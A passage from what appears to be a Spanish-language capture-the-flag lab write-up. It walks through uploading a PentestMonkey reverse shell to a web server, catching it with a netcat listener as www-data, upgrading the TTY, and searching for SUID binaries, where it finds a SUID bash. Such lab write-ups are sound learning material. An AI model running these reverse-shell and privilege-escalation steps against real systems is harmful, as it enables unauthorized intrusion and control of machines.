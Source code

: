 Creamos nuestro exploit, viene bien tambien si se quiere crear una webshell para prácticar o directamente una shell de nuestro amigo *Pentest Monkey*.

<img width="724" height="175" alt="Pasted image 20250623172918" src="https://github.com/user-attachments/assets/f6f13df0-a2bc-4d43-9088-e2daddfda366" />

<img width="617" height="172" alt="Pasted image 20250623172944" src="https://github.com/user-attachments/assets/768f2248-cb2f-4916-b112-a4361e9cb6ff" />

### Intrusión

Una vez subido creamos una escucha con *netcat* y logramos acceso sin ningún problema.

<img width="544" height="330" alt="Pasted image 20250623173038" src="https://github.com/user-attachments/assets/9d513920-700d-443f-91c2-36d70e68d22e" />

```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 50086
Linux a77fa3aa6e6a 6.12.25-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.25-1kali1 (2025-04-30) x86_64 x86_64 x86_64 GNU/Linux
 17:30:45 up 32 min,  0 user,  load average: 1.09, 2.51, 1.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU  WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can\'t access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Post-Explotación

Al tener una *sh*, pues como siempre nos hacemos una shell bonita y realmente interactiva, que un Ctrl+Z no te arruine la fiesta.

```bash
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
bash-5.2$ ^Z
[1]  + 37192 suspended  nc -lvnp 4444
❯ stty raw -echo; fg
[1]  + 37192 continued  nc -lvnp 4444
                                     reset xterm
bash-5.2$ export TERM=xterm
```

### Escalada de Privilegios

No hay más usuarios a los que hacer movimiento lateral o pivoting, por lo que buscamos rápidamente una forma de escalar (nuestro momento favorito :D), en este caso directamente buscamos archivos con permisos *SUID* y vemos que la propia bash los tiene.

```bash
bash-5.2$ find / -perm -4000 2>/dev/null
/usr/local/bin/bash
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
